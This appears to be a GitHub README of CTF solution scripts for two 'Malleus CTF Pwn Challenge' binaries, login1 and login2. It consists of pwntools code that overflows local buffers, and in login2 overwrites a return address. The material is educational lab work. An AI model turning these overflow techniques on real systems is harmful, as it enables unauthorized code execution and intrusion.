 # Malleus CTF Pwn Challenge

- https://github.com/kusano/ctfpwn_challenge
- https://sanya.sweetduet.info/ctfpwn/

## login1

```python
#!/usr/bin/env python3
from pwn import ELF, context, log, process, remote
exe = context.binary = ELF('./login1')
# io = process([exe.path])
io = remote('localhost', 10001)
io.sendline(b'A' * 0x2d)
io.sendline(b'password')
io.recvuntil(b'The flag is: ')
log.success(io.recvline().decode())
io.close()
```

## login2

```python
#!/usr/bin/env python3
from pwn import ELF, context, log, p64, process, remote
exe = context.binary = ELF('./login2')
# io = process([exe.path])
io = remote('localhost', 10002)
io.sendline(b'admin')
target_addr = 0x401352
io.sendline(b'A'*0x48 + p64(target_addr))
io.recvuntil(b'The flag is: ')
log.success(io.recvline().decode())
io.close()
```
